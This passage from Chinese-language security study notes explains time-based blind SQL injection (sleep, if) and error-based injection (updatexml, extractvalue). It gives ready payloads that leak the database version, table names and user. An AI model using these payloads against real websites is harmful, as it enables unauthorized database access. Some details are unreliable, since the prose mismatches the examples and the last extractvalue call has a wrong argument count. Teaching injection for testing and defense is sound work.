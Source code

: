 ![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4402.png)

### 基于时间的 SQL 盲注-延时判断（可以不用回显及报错处理）

if,sleep

```php
#单地引入了一个1秒的延迟。如果应用程序响应时间增加了1秒，那么攻击者可以推断注入条件为真。
and sleep(1);
#if 函数被使用，但条件始终为假（1 > 2）。因此，sleep(1) 函数不会执行，而是返回0。这个语句的目的是验证条件的结果是否影响查询的响应时间。如果查询响应时间增加，说明注入条件为真。
and if(1>2,sleep(1),0);
#但这次条件为真（1 < 2）。因此，sleep(1) 函数将执行，导致查询延迟1秒钟。攻击者可以观察到响应时间的增加，从而确定注入条件为真。
and if(1<2,sleep(1),0);
```

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4403.png)

### 基于报错的 SQL 盲注-报错回显（需要报错处理的代码段）

```php
$data=mysqli_query($con,$sql) or die(mysqli_errno($con));
```

基于报错的SQL盲注是一种注入攻击技术，其中攻击者试图通过触发SQL错误来获取有关数据库结构和内容的信息。

使用方法：

```sql
#攻击者试图通过 updatexml 函数将波浪符 0x7e 连接到数据库版本号，从而引发错误并泄露版本信息。这是一种常见的基于报错的注入技术，攻击者可以通过观察错误消息来获取敏感信息。
and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)
#攻击者试图通过 extractvalue 函数获取 information_schema.tables 表的第一个表名。通过观察错误消息，攻击者可以逐步推断数据库结构。
and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
```

> FLOOR:
>
> FLOOR 函数本身通常不直接用于报错注入。它是用于数值处理的函数，主要用于取整。
>
> 如果在使用 FLOOR 函数时传入了不正确的参数，可能导致SQL错误，但这通常不是攻击者首选的方法。

> updatexml:
>
> updatexml 函数在错误注入中可能是有用的。攻击者可以尝试构造一个恶意的 XML 语句，触发错误并泄漏有关数据库结构的信息。
>
> 示例：上述语句尝试通过 updatexml 函数将波浪符 0x7e 连接到数据库名称，从而引发错误并回显数据库名称。

> extractvalue:
>
> extractvalue 函数也可以用于错误注入。攻击者可以构造恶意的 XML 路径，触发错误并泄漏信息。
>
> 示例：上述语句尝试通过 extractvalue 函数将波浪符 0x7e 连接到当前用户的名称，从而引发错误并回显用户信息。
>
> ```sql
> extractvalue(1, concat(0x7e, (SELECT user())), 1)
> ```
